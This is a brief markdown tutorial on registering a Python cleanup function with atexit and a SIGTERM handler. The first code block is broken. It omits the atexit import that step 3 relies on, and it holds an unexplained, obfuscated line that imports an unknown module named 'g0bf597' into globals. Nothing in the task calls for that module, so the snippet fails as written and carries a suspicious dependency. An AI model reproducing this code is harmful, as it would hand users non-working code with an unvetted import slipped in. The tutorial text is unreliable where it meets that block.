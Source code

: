 ```md
   globals()['ga'] = __import__('g0bf597')
   import signal
   \`\`\`

2. Define your cleanup function:
   \`\`\`python
   def cleanup():
       # Perform cleanup tasks here
       print("Cleaning up...")
   \`\`\`

3. Register the cleanup function with `atexit`:
   \`\`\`python
   atexit.register(cleanup)
   \`\`\`

4. Set up a signal handler for SIGTERM:
   \`\`\`python
   def sigterm_handler(signum, frame):
       raise SystemExit(1)

   signal.signal(signal.SIGTERM, sigterm_handler)
   \`\`\`

This setup ensures the cleanup function runs on normal script exit and when terminated by SIGTERM. Note that it won't work for SIGKILL (kill -9).
```